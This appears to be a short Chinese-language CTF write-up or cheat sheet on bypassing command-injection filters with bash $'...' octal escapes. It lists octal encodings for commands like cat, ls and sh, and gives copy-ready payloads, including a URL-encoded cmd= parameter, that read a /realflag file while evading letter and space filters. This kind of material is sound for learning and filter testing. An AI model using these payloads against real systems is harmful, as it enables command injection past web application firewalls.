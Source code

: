 排错与技巧
- 逐步探测：先尝试 `ls /` 确认回显，再 `cat /realflag`
- 分隔优先用换行 `$'\012'`（更稳、更通用）
- 若某符号被过滤，直接在 `$'...'` 内写其 **八进制** 即可（如 `/` → `\057`）
- 如 WAF 过滤 `\`（反斜杠）本体，则本法受限；需换其他编码链路（如纯符号表达式、文件描述符技巧等）

常用命令的八进制编码片段（便于拼接）
- `cat` → `\143\141\164`
- `ls`  → `\154\163`
- `sh`  → `\163\150`
- `echo`→ `\145\143\150\157`
- `/`   → `\057`
- `flag`→ `\146\154\141\147`
- `realflag` → `\162\145\141\154\146\154\141\147`

一键模板（拷贝即用）
- 读 `/realflag`（推荐）：
  - `$'\143\141\164'$'\012'$'\057\162\145\141\154\146\154\141\147'`
- URL 编码版（更稳）：
  - `cmd=%24%27%5C143%5C141%5C164%27%24%27%5C012%27%24%27%5C057%5C162%5C145%5C141%5C154%5C146%5C154%5C141%5C147%27`

小工具建议
- 写本地脚本把任意明文命令按“空白切 token → 每段转八进制 → 用 `$'\012'` 连接 → 可选 URL 编码”
- 输入：`cat /realflag` → 输出：`$'\143\141\164'$'\012'$'\057\162\145\141\154\146\154\141\147'`

结论
- 只要能用 **`$'...'`** 和 **反斜杠**，八进制绕过即可在“无字母 + 无空格”场景稳定构造可执行命令。
- 分隔选 **换行**，符号全部用 **八进制** 表示，逐步探测拿到 flag。
